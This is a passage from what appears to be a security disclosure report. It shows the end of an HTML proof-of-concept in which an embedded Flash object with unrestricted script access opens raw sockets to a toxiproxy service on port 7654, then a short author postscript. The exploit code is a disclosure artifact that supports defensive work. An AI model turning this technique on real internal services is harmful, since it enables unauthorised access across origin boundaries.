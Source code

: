 ```html
								enabled: true
							}),
						}).then(() => {
							let data = prompt("Enter the data you would like to send:", "Hello World");
							let response = "";
							window.onsocketdata = (socketData) => {
								response += socketData;
							};
							window.onsocketclose = () => {
								document.write(`<pre>Got Response:\n${response}</pre>`);
							};
							flash.connect(toxiproxy.hostname, 7654, data);
						});
					};
					// Trigger the first cache
					console.log(flash)
					flash.connect(toxiproxy.hostname, 7654, "cache");
				});
			}
		</script>
	</head>
	<body>
		<object id="flash" name="flash" type="application/x-shockwave-flash" data="10495ef1-3be0-49b2-8872-2f09e29ad848.swf">
		    <param name="movie" value="10495ef1-3be0-49b2-8872-2f09e29ad848.swf" />
		    <param name="AllowScriptAccess" value="always" />
		</object>
	</body>
</html>
```

# Postscript
I know this was a rather long report, and it's fundamentally a pretty simple issue, however it's a rather unique issue once you get into exploitation and I had a lot of fun working on it, I hope you guys enjoy it too.

## Attachments
No attachments
